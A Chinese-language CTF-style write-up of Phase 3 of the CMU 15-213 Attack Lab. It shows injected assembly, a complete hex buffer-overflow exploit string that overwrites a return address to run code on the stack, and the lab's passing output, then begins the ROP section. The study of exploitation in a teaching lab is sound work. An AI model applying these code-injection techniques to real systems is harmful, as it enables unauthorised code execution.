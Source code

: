 

#### Phase3

目的：执行`touch3`而不返回到`test`

advice:

+ 将cookie转为ascii码
+ 用%rdi存放字符串的首地址
+ `hexmatch`函数与`strncmp`函数会向栈内存放数据，因此需考虑字符串的存放位置

分析：

由于上述两个函数会向栈内存放数据，为了保证字符串不被破坏，应将字符串存放在test函数的栈底端，则攻击代码为:

```asm
mov $0x5561dca8, %rdi #0x5561dca8由查看getbuf中初始rsp为0x5561dca0，然后加上返回地址所占的8个字节，则得到test函数的栈底地址
pushq $0x4018fa
retq
```

则答案为:

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

使用`hex2raw`转换并执行后得到结果：

```
zwen@zwen-virtual-machine:~/桌面/cmu-15213-labs/target1$ ./ctarget -q <attack-raw.txt
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 

```





### Part2 : ROP

使用code-injection  attacks来攻击`RTARGET`将会变得困难，原因如下

+ `Rtarget`使用 **栈随机化** 来使得攻击者无法确定注入的代码的位置
+ `Rtarget`使得栈区域变得 **不可执行**
